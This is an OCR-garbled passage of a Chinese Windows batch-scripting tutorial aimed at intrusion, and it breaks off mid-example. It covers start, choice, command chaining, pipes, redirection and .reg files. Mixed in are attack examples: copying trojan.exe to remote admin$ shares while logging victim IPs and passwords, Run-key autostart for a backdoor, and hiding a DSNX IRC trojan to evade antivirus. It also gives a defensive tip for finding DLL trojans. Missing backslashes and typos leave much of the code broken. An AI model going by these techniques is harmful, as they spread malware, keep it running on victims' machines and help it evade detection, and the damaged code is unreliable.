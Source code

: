 [Drive:}[Path] FileName 指定要调用的批处理程序的位置和名称。filename 参数必须具有 .bat 或 .cmd 扩展名。 7.start 命令 调用外部程序，所有的DOS命令和命令行程序都可以由start命令来调用。 入侵常用参数： MIN 开始时窗口最小化 SEPARATE 在分开的空间内开始 16 位 Windows 程序 HIGH 在 HIGH 优先级类别开始应用程序 REALTIME 在 REALTIME 优先级类别开始应用程序 WAIT 启动应用程序并等候它结束 parameters 这些为传送到命令/程序的参数 执行的应用程序是 32-位 GUI 应用程序时，CMD.EXE 不等应用程序终止就返回命令提示。如果在命令脚本内执行，该新行为则不会发生。 8.choice 命令 choice 使用此命令可以让用户输入一个字符，从而运行不同的命令。使用时应该加/c:参数，c:后应写提示可输入的字符，之间无空格。它的返回码为1234…… 如: choice /cme defrag,mem,end 将显示 defrag,mem,end[D,M,E]? Sample： Sample.bat的内容如下: @echo off choice /cme defrag,mem,end if errorlevel 3 goto defrag （应先判断数值最高的错误码） if errorlevel 2 goto mem if errotlevel 1 goto end efrag c:dosdefrag goto end :mem mem goto end :end echo good bye 此文件运行后，将显示 defrag,mem,end[D,M,E]? 用户可选择d m e ，然后if语句将作出判断，d表示执行标号为defrag的程序段，m表示执行标号为mem的程序段，e表示执行标号为end的程序段，每个程序段最后都以goto end将程序跳到end标号处，然后程序将显示good bye，文件结束。 批处理的高级运用2 三.如何使用组合命令(Compound Command) 1.&amp; Usage：第一条命令 &amp; 第二条命令 [&amp; 第三条命令...] 用这种方法可以同时执行多条命令，而不管命令是否执行成功 Sample： C:&gt;dir z: &amp; dir c:Ex4rch The system cannot find the path specified. Volume in drive C has no label. Volume Serial Number is 0078-59FB Directory of c:Ex4rch 2002-05-14 23:51 &lt;DIR&gt; . 2002-05-14 23:51 &lt;DIR&gt; .. 2002-05-14 23:51 14 sometips.gif 2.&amp;&amp; Usage：第一条命令 &amp;&amp; 第二条命令 [&amp;&amp; 第三条命令...] 用这种方法可以同时执行多条命令，当碰到执行出错的命令后将不执行后面的命令，如果一直没有出错则一直执行完所有命令； Sample： C:&gt;dir z: &amp;&amp; dir c:Ex4rch The system cannot find the path specified. C:&gt;dir c:Ex4rch &amp;&amp; dir z: Volume in drive C has no label. Volume Serial Number is 0078-59FB Directory of c:Ex4rch 2002-05-14 23:55 &lt;DIR&gt; . 2002-05-14 23:55 &lt;DIR&gt; .. 2002-05-14 23:55 14 sometips.gif 1 File(s) 14 bytes 2 Dir(s) 768,671,744 bytes free The system cannot find the path specified. 在做备份的时候可能会用到这种命令会比较简单，如： dir file://192.168.0.1/database/backup.mdb &amp;&amp; copy file://192.168.0.1/database/backup.mdb E:backup 如果远程服务器上存在backup.mdb文件，就执行copy命令，若不存在该文件则不执行copy命令。这种用法可以替换IF exist了 ：）  3.|| Usage：第一条命令 || 第二条命令 [|| 第三条命令...] 用这种方法可以同时执行多条命令，当碰到执行正确的命令后将不执行后面的命令，如果没有出现正确的命令则一直执行完所有命令； Sample： C:Ex4rch&gt;dir sometips.gif || del sometips.gif Volume in drive C has no label. Volume Serial Number is 0078-59FB Directory of C:Ex4rch 2002-05-14 23:55 14 sometips.gif 1 File(s) 14 bytes 0 Dir(s) 768,696,320 bytes free 组合命令使用的例子： sample： @copy trojan.exe \%1admin$system32 &amp;&amp; if not errorlevel 1 echo IP %1 USER %2 PASS %3 &gt;&gt;victim.txt No.4 四、管道命令的使用 1.| 命令 Usage：第一条命令 | 第二条命令 [| 第三条命令...] 将第一条命令的结果作为第二条命令的参数来使用，记得在unix中这种方式很常见。 sample： time /t&gt;&gt;D:IP.log netstat -n -p tcp|find ":3389"&gt;&gt;D:IP.log start Explorer 看出来了么？用于终端服务允许我们为用户自定义起始的程序，来实现让用户运行下面这个bat，以获得登录用户的IP。 2.&gt;、&gt;&gt;输出重定向命令 将一条命令或某个程序输出结果的重定向到特定文件中, &gt; 与 &gt;&gt;的区别在于，&gt;会清除调原有文件中的内容后写入指定文件，而&gt;&gt;只会追加内容到指定文件中，而不会改动其中的内容。 sample1： echo hello world&gt;c:hello.txt (stupid example?) sample2: 时下DLL木马盛行，我们知道system32是个捉迷藏的好地方，许多木马都削尖了脑袋往那里钻，DLL马也不例外，针对这一点我们可以在安装好系统和必要的应用程序后，对该目录下的EXE和DLL文件作一个记录： 运行CMD--转换目录到system32--dir *.exe&gt;exeback.txt &amp; dir *.dll&gt;dllback.txt, 这样所有的EXE和DLL文件的名称都被分别记录到exeback.txt和dllback.txt中, 日后如发现异常但用传统的方法查不出问题时,则要考虑是不是系统中已经潜入DLL木马了. 这时我们用同样的命令将system32下的EXE和DLL文件记录到另外的exeback1.txt和dllback1.txt中,然后运行: CMD--fc exeback.txt exeback1.txt&gt;diff.txt &amp; fc dllback.txt dllback1.txt&gt;diff.txt.(用FC命令比较前后两次的DLL和EXE文件,并将结果输入到diff.txt中),这样我们就能发现一些多出来的DLL和EXE文件,然后通过查看创建时间、版本、是否经过压缩等就能够比较容易地判断出是不是已经被DLL木马光顾了。没有是最好，如果有的话也不要直接DEL掉，先用regsvr32 /u trojan.dll将后门DLL文件注销掉,再把它移到回收站里，若系统没有异常反映再将之彻底删除或者提交给杀毒软件公司。 3.&lt; 、&gt;&amp; 、&lt;&amp; &lt; 从文件中而不是从键盘中读入命令输入。 &gt;&amp; 将一个句柄的输出写入到另一个句柄的输入中。 &lt;&amp; 从一个句柄读取输入并将其写入到另一个句柄输出中。 这些并不常用，也就不多做介绍。 No.5 五.如何用批处理文件来*作注册表 在入侵过程中经常回*作注册表的特定的键值来实现一定的目的，例如:为了达到隐藏后门、木马程序而删除Run下残余的键值。或者创建一个服务用以加载后门。当然我们也会修改注册表来加固系统或者改变系统的某个属性，这些都需要我们对注册表*作有一定的了解。下面我们就先学习一下如何使用.REG文件来*作注册表.(我们可以用批处理来生成一个REG文件) 关于注册表的*作，常见的是创建、修改、删除。 1.创建 创建分为两种，一种是创建子项(Subkey) 我们创建一个文件，内容如下： Windows Registry Editor Version 5.00 [HKEY_LOCAL_MACHINESOFTWAREMicrosofthacker] 然后执行该脚本，你就已经在HKEY_LOCAL_MACHINESOFTWAREMicrosoft下创建了一个名字为“hacker”的子项。 另一种是创建一个项目名称 那这种文件格式就是典型的文件格式，和你从注册表中导出的文件格式一致，内容如下： Windows Registry Editor Version 5.00 [HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun] "Invader"="Ex4rch" "Door"=C:WINNTsystem32door.exe "Autodos"=dword:02 这样就在[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]下 新建了:Invader、door、about这三个项目 Invader的类型是“String value” door的类型是“REG SZ value” Autodos的类型是“DWORD value” 2.修改 修改相对来说比较简单，只要把你需要修改的项目导出，然后用记事本进行修改，然后导入（regedit /s）即可。 3.删除 我们首先来说说删除一个项目名称，我们创建一个如下的文件： Windows Registry Editor Version 5.00 [HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun] "Ex4rch"=- 执行该脚本，[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]下的"Ex4rch"就被删除了； 我们再看看删除一个子项，我们创建一个如下的脚本： Windows Registry Editor Version 5.00 [-HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun] 执行该脚本，[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]就已经被删除了。 相信看到这里，.reg文件你基本已经掌握了。那么现在的目标就是用批处理来创建特定内容的.reg文件了，记得我们前面说道的利用重定向符号可以很容易地创建特定类型的文件。 samlpe1:如上面的那个例子,如想生成如下注册表文件 Windows Registry Editor Version 5.00 [HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun] "Invader"="Ex4rch" "door"=hex:255 "Autodos"=dword:000000128 只需要这样： @echo Windows Registry Editor Version 5.00&gt;&gt;Sample.reg @echo [HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]&gt;Sample.reg @echo "Invader"="Ex4rch"&gt;&gt;Sample.reg @echo "door"=5&gt;&gt;C:WINNTsystem32door.exe&gt;&gt;Sample.reg @echo "Autodos"=dword:02&gt;&gt;Sample.reg samlpe2: 我们现在在使用一些比较老的木马时,可能会在注册表的[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun(Runonce、Runservices、Runexec)]下生成一个键值用来实现木马的自启动.但是这样很容易暴露木马程序的路径,从而导致木马被查杀,相对地若是将木马程序注册为系统服务则相对安全一些.下面以配置好地IRC木马DSNX为例(名为windrv32.exe) @start windrv32.exe @attrib +h +r windrv32.exe @echo [HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun] &gt;&gt;patch.dll @echo "windsnx "=- &gt;&gt;patch.dll